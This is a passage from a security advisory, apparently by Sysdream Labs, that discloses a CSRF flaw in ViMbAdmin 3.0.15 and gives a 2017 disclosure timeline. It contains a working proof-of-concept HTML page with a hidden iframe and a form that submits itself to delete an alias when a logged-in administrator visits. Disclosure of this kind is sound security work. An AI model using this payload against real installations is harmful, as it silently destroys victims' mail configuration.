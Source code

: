 #### Vulnerable code

The vulnerable code is located in the `addAction()` method of the `<vimbadmin directory>/application/controllers/AliasController.php` file.

### Remove alias address

#### Exploit

The following html/javascript code allows the removal of a alias address. It needs to be visited by a logged administrator of the targeted ViMbAdmin application.

```html
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/alias/delete/alid/<alias id>" method="GET" target="csrf-frame" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>
```

#### Vulnerable Code

The vulnerable code is located in the `addAction()` method of the `<vimbadmin directory>/application/controllers/AliasController.php` file.

## Affected version

* tested on version 3.0.15

## Timeline (dd/mm/yyyy)

* 22/01/2017 : Initial discovery.
* 16/02/2017 : First contact with opensolutions.io
* 16/02/2017 : Advisory sent.
* 24/02/2017 : Reply from the owner, acknowledging the report and planning to fix the vulnerabilities.
* 13/03/2017 : Sysdream Labs request for an update.
* 29/03/2017 : Second request for an update.
* 29/03/2017 : Reply from the owner stating that he has no time to fix the issues.
* 03/05/2017 : Full disclosure.


## Credits

* Florian NIVETTE, Sysdream (f.nivette -at- sysdream -dot- com)